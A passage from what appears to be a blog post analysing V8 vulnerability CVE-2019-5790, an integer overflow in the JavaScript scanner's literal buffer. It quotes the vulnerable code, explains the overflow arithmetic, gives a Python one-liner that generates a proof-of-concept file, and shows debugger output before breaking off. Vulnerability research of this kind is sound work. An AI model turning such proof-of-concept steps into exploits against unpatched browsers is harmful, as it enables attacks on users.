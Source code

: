 # [V8] CVE-2019-5790

This blogpost is an analysis of vulnerability reported by Dimitry Fourny from Blue Frost Security which was already fixed in repository but no poc has been released yet. It got me curious how the poc would look like for this bug so I started my research on the bug. I described the way I approached this bug with all the steps, also non-working tries.
https://chromereleases.googleblog.com/2019/03/stable-channel-update-for-desktop_12.html?m=1
CVE: https://access.redhat.com/security/cve/cve-2019-5790

Patch : https://github.com/v8/v8/commit/c7410e8ccff855fdb1a1a0a0c6c2690716a96548

## Bug

```cpp
int Scanner::LiteralBuffer::NewCapacity(int min_capacity) {
  int capacity = Max(min_capacity, backing_store_.length());
  int new_capacity = Min(capacity * kGrowthFactory, capacity + kMaxGrowth);
  return new_capacity;
}

void Scanner::LiteralBuffer::ExpandBuffer() {
  Vector<byte> new_store = Vector<byte>::New(NewCapacity(kInitialCapacity));
  MemCopy(new_store.start(), backing_store_.start(), position_);
  backing_store_.Dispose();
  backing_store_ = new_store;
}
```

``` Scanner::LiteralBuffer::NewCapacity ``` 
Is responsible for calculation of size that need to be allocated on the heap for the incoming string.
It takes value ```min_capacity``` which is 16 and checks it against the ```backing_store_.length()``` which is the size of the string in question.
Value ```kMaxGrowth``` equals 1MB = 1048576;

Basic idea of the allocation is like this:
```"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" = 64 chars, so allocation would be 256.```

Now all we need is to overflow allocation however there is tricky part because to overflow it we need max_int +1 (2147483648 + 1), so there are two choices to do that :

* create file with variable name that is max_int+1 = 2GB file
* create dynamic string and the eval it so engine would need to parse it

## Method 1:
My attempt is to create file with this command:
```python -c "print('var '+'a'*134217729+' = 1')" > poc2.js```


CTRL+C during execution:
```
#0  0x000055555559a189 in (anonymous namespace)::(anonymous namespace)::CheckLTImpl<unsigned long, unsigned long> (lhs=37441044, rhs=37748736, msg=0x7ffff5f97060 "index < length_") at ../../src/base/logging.h:301
#1  0x00007ffff62dabbf in (anonymous namespace)::(anonymous namespace)::Vector<unsigned char const>::operator[] (this=0x7fffffffc380, index=37441044) at ../../src/vector.h:61
#2  0x00007ffff700698f in (anonymous namespace)::(anonymous namespace)::Scanner::LiteralBuffer::AddOneByteChar (this=0x7fffffffc380, one_byte_char=97 'a') at ../../src/parsing/scanner.h:486
#3  0x00007ffff7006cd4 in (anonymous namespace)::(anonymous namespace)::Scanner::LiteralBuffer::AddChar (this=0x7fffffffc380, code_unit=97 'a') at ../../src/parsing/scanner.h:425
#4  0x00007ffff70055fb in (anonymous namespace)::(anonymous namespace)::Scanner::AddLiteralChar (this=0x7fffffffc350, c=97 'a') at ../../src/parsing/scanner.h:577
#5  0x00007ffff7006c5d in operator() (this=0x7fffffffb360, c0=97) at ../../src/parsing/scanner-inl.h:273

[0]: ExitFrame [pc: 0x7ffff79e678d]
[1]: StubFram...
